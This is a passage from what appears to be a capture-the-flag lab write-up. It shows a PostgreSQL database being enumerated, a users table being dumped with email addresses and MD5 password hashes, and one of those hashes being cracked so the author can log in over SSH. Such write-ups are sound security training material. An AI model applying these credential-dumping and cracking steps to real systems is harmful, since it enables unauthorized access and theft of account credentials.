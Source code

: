 We can use `\connect mentorquotes_htb` to use that database, and then view the tables within it. Then we can enumerate the tables and select everything:

```
mentorquotes_db-# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from users;
 id |           email           |  username   |             password             
----+---------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb    | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb      | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
  4 | fakeuser@mentorquotes.htb | fakeuser    | 5f4dcc3b5aa765d61d8327deb882cf99
  5 | james@mentorquotes.htb    | fakeuser    | 5f4dcc3b5aa765d61d8327deb882cf99
  6 | testuser@mentorquotes.htb | james       | 5f4dcc3b5aa765d61d8327deb882cf99
  7 | newjames@mentorquotes.htb | james       | 5f4dcc3b5aa765d61d8327deb882cf99
```

The hash for `svc` is crackable.

<figure><img src="../../../.gitbook/assets/image (1446).png" alt=""><figcaption></figcaption></figure>

Then we can SSH in as `svc` and grab the user flag:
